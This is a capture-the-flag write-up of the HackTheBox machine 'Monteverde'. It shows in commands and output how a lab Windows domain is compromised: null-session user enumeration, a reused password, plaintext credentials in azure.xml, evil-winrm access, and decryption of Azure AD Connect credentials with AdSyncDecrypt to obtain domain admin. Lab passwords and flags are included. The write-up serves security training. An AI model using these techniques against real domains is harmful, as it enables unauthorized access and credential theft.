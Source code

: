 ```yaml
---
title: "Monteverde"
date: 2025-06-20
categories:
  - HackTheBox
  - Active Directory
  - Windows
tags:
  - HackTheBox
  - Active Directory
---
```


# Monteverde

![](assets/Pasted%20image%2020250508235926.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.172
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 00:19 CEST
Nmap scan report for 10.10.10.172
Host is up (0.042s latency).
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-08 22:13:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -6m44s
| smb2-time: 
|   date: 2025-05-08T22:14:26
|_  start_date: N/A
```

Get users with a null session via `rpcclient` and make a list

```shell
$ rpcclient -U '' -N 10.10.10.172
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

```shell
$ cat users | awk -F[][] '{print $2}' | sponge users
```

A user has an important description

```shell
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
```

Using `nxc` we find that `SABatchJobs` uses the same password as the name.

![](assets/Pasted%20image%2020250509004204.png)

Looking at the shares, the user can read some folders.

![](assets/Pasted%20image%2020250509093833.png)

In the `users` folder, the user `mhope` has an `azure.xml` file

![](assets/Pasted%20image%2020250509094041.png)

```shell
$ cat azure.xml                
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

So `mhope:4n0therD4y@n0th3r$`

```shell
$ nxc winrm 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

## Initial Access

Using the found credentials, use `evil-winrm` to access the machine

```shell
$ evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

Get the flag

```shell
*Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
faea87344cd9b77a1fddc48abc6a62da
```

## Privilege Escalation

`mhope` belongs to the Azure Admins group and the system has Azure AD Sync and a database installed, so:

```shell
*Evil-WinRM* PS C:\program files> ls
    Directory: C:\program files
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Searching for an exploit, we find [https://github.com/VbScrub/AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt). Download the files and upload them to the machine, then, following the instructions, execute the exe.

```shell
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\users\mhope\addecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

`administrator:d0m@in4dminyeah!`

Re-enter as `administrator` via `evil-winrm`

```shell
$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```

## Post Exploitation

```shell
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
6fb5178cc58500def2e5ede28a86cc0d
```
